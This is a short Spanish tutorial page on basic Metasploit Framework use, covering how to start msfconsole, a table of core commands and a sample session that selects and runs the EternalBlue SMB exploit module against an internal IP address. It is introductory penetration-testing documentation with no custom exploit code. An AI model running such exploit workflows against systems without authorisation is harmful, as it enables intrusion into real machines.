

# Uso básico de Metasploit Framework

Antes de continuar, asegúrate de haber completado correctamente la [instalación de Metasploit](instalacion.md).

## Iniciar la consola

El componente principal para interactuar con Metasploit es `msfconsole`. Para iniciarlo, abre tu terminal y ejecuta:

```bash
msfconsole
```

Esto abrirá la interfaz interactiva desde la cual se gestionan exploits, payloads y módulos auxiliares.

## Comandos esenciales

A continuación, una lista de los comandos más utilizados dentro de `msfconsole`:

| Comando              | Descripción                                              |
|----------------------|-----------------------------------------------------------|
| `search <término>`   | Busca módulos relacionados con un término o CVE.          |
| `use <módulo>`       | Selecciona un módulo (exploit, payload, auxiliary, etc.). |
| `show options`       | Muestra las opciones configurables del módulo actual.     |
| `set <opción> <valor>` | Configura un parámetro del módulo seleccionado.          |
| `run` / `exploit`    | Ejecuta el módulo configurado.                            |
| `back`               | Sale del módulo actual sin cerrar la consola.             |

## Ejemplo de flujo de trabajo

A continuación, un ejemplo de cómo localizar y configurar un módulo:

```bash
msf6 > search eternalblue
msf6 > use exploit/windows/smb/ms17_010_eternalblue
msf6 exploit(...) > show options
msf6 exploit(...) > set RHOSTS 192.168.1.10
msf6 exploit(...) > run
```



!!! tip "Buenas prácticas"
    Utiliza siempre el comando `show options` antes de ejecutar cualquier módulo. Esto te permite verificar que todos los parámetros obligatorios (marcados como `yes` en la columna `Required`) estén correctamente configurados.

## Recursos adicionales

Si tienes dudas sobre la instalación, puedes regresar a la sección de [Instalación](instalacion.md) para repasar los pasos.